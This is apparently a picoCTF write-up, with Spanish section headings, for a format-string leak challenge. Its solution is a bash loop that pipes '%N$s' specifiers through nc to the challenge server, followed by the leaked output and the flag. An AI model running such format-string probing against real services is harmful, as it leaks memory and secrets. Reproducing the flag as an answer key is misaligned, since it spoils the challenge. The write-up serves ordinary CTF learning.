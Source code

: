 ## Objetivo

Story telling class 1/2I'm just copying and pasting with this [program](https://artifacts.picoctf.net/c/91/vuln). What can go wrong? You can view source [here](https://artifacts.picoctf.net/c/91/vuln.c). And connect with it using:`nc saturn.picoctf.net 60599`
## Hints


## Solución

```
for i in {0..999}; do echo "%$i\$s" | nc saturn.picoctf.net 60599; done
Tell me a story and then I'll tell you one >> Here's a story - 
CTF{L34k1ng_Fl4g_0ff_St4ck_64bf08ef}
```
## Bandera
picoCTF{L34k1ng_Fl4g_0ff_St4ck_64bf08ef}